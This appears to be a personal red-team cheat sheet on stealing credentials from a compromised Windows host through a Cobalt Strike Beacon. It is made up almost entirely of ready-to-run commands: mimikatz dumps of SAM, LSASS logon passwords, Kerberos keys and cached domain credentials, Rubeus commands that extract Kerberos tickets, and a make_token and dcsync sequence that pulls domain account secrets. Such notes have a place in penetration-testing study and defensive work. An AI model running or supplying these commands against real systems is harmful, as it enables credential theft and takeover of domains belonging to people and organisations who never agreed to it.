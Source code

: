 # Credential Theft Notes

## Beacon + Mimikatz

Can run mimikatz in beacon
```
mimikatz token::elevate
mimikatz lsadump::sam
```

You can chain commands with the semicolon
```
mimikatz toke::elevate ; lsadump::sam
```

Can use ! to elevate as SYSTEM
```
mimikatz !lsadump::sam
```

## NTLM Hashes

We can dump possible plaintext passwords with mimikatz sekurlsa::logonpasswords
```
mimikatz !sekurlsa::logonpasswords
```

## Kerberos Encryption Keys
Dumps kerberos encryption keys of logged on users
```
mimikatz !sekurlsa::ekeys
```

## Security Account manager

```
mimikatz !lsadump::sam
```

## Domain Cached Credentials
dumps any domain creds saved on the machine
```
mimikatz !lsadump::cache
```

## Extracting Kerberos Tickets

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
```

Pulling with Rubeus for a specific user TGT
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x7049f /service:krbtgt
```

## DCSYNC
a fun one, using a token of a domain admin user
```
make_token DOMAIN\User <password>
dcsync <dc domain> <user to dump>
```
